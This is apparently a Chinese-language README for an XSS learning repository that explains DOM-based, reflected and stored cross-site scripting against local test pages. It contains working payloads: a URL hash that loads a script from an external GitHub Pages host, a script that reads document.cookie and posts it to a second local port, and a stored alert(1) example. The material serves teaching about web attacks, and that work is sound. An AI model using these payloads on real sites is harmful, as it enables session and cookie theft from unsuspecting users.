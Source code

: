 # xss_learn
xss学习

### dom 型

> dom 型由浏览器执行，与后端无关，需要前端规避。

访问 `domTest.html`，加上 hash 值：
```
// 可以通过本地 http-server 启动一个服务
http://127.0.0.1:8080/domTest.html#document.write("<script/src=//askybig.github.io/ImageStore/xss.js></script>")
```

### 反射型

> 反射型属于后端控制，对输入负责。

分别启动 3000 和 3001端口，在 3000页面输入url：
```
测试数据</h><script>(function () {var str = document.cookie;console.log('str', str);var request=new XMLHttpRequest();request.onreadystatechange=function(){if(request.readyState===4){if(request.status===200){console.log("success");return request}else{console.log("fail");return request}}else{}};request.open("POST","http://localhost:3001/xssattack");request.send(str);})()</script>
```
可以看到3000 端口的 Cookie 被 3001 拿到了。

<img src="https://github.com/ASkyBig/ImageStore/blob/master/reflect.gif?raw=true" width="200px">

### 存储型

> 存储型也属于后端控制，对输入负责。

如果没有做过滤，比如将数据库存储的某条评论 `<script>alert(1)</script>` 拼接在评论列表的 HTML 上，用户访问就会造成存储型 xss 攻击。
